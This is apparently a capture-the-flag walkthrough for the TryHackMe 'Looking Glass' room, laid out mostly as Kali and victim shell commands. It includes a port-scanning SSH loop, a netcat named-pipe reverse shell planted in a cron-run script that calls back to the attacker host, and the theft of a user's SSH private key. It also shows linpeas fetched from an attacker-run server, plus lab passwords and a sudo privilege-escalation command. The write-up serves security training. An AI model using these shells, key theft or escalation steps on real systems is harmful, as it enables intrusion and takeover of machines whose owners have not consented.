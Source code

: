 # Looking Glass

**Room Link:** [https://tryhackme.com/room/lookingglass](https://tryhackme.com/room/lookingglass)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (651).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (652).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (653).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (654).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

Same as the first scan, a lot of ssh ports open

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



## TCP/22 - SSH

**Kali**

<figure><img src="../../.gitbook/assets/image (655).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nmap -A $VICTIM -oN results.txt
grep -oE '^[0-9]+/' results.txt > num.txt
cat num.txt
```

<figure><img src="../../.gitbook/assets/image (656).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat num.txt |  tr -d '\n' | sed 's/\//,/g' | tr -d ' '
```

<figure><img src="../../.gitbook/assets/image (658).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
for port in 9000 9001 9002 9003 9009 9010 9011 9040 9050 9071 9080 9081 9090 9091 9099 9100 9101 9102 9103 9110 9111 9200 9207 9220 9290 9415 9418 9485 9500 9502 9503 9535 9575 9593 9594 9595 9618 9666 9876 9877 9878 9898 9900 9917 9929 9943 9944 9968 9998 9999 10000 10001 10002 10003 10004 10009 10010 10012 10024 10025 10082 10180 10215 10243 10566 10616 10617 10621 10626 10628 10629 10778 11110 11111 11967 12000 12174 12265 12345 13456 13722 13782 13783; do
    echo "connecting to port $port"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $port test@$VICTIM;done 
```



<figure><img src="../../.gitbook/assets/image (659).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
for i in $(seq 12345 13465); do echo "connecting to port $i"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $i $VICTIM;done | grep -vE 'Lower|Higher'
```

<figure><img src="../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

```
Key: thealphabetcipher
```

<figure><img src="../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh $VICTIM -p 12350
Password: bewareTheJabberwock
```

<figure><img src="../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

## **Initial Access**

**Kali**

<pre><code><strong>ssh jabberwock@$VICTIM 
</strong>Password: PlaceThanksSelfishGrinned
</code></pre>



**Victim**

<pre><code><strong>sudo -l
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cat /etc/crontab
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cd /home/jabberwock
</strong><strong>vi twasBrillig.sh
</strong></code></pre>

**twasBrillig.sh**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc $KALI 1337 >/tmp/f
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```



**Victim**

<pre><code><strong>sudo /sbin/reboot
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim(tweedledee)**

<pre><code><strong>cd /home/tweedledee
</strong><strong>cat humptydumpty.txt 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledee)**

<pre><code><strong>sudo -l
</strong>sudo -u tweedledum /bin/bash 
</code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledum)**

<pre><code><strong>cd /home/tweedledum/
</strong>cat humptydumpty.txt 
</code></pre>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledum)**

<pre><code><strong>su humptydumpty
</strong><strong>Password: zyxwvutsrqponmlk
</strong></code></pre>

I can get into alice's folder but I can't actually ls and see files, but I tried looking at files that are usually there and I found her id\_rsa key.

**Victim(humptydumpty)**

<pre><code><strong>cd /home/alice
</strong><strong>cat .ssh/id_rsa
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Copy key to Kali

**Kali**

```
chmod 600 id_rsa 
ssh alice@$VICTIM -i id_rsa
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim(alice)**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```



<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(alice)**

```
cat /etc/sudoers.d/alice 
sudo -h ssalg-gnikool -l
sudo -h ssalg-gnikool /bin/bash
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

